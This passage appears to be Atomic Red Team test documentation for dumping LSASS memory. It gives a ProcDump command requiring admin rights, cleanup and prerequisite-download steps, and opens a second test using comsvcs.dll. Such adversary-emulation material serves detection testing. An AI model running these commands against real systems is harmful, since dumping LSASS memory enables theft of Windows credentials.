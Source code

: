 
**auto_generated_guid:** 0be2230c-9ab3-4ac2-8826-3199b9a0ebf8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass_dump.dmp|
| procdump_exe | Path of Procdump executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;procdump.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{procdump_exe}" -accepteula -ma lsass.exe #{output_file}
```

#### Cleanup Commands:
```cmd
del "#{output_file}" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{procdump_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip" "PathToAtomicsFolder\..\ExternalPayloads\Procdump" -Force
New-Item -ItemType Directory (Split-Path "#{procdump_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\Procdump\Procdump.exe" "#{procdump_exe}" -Force
```




<br/>
<br/>

## Atomic Test #2 - Dump LSASS.exe Memory using comsvcs.dll
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with a built-in dll.
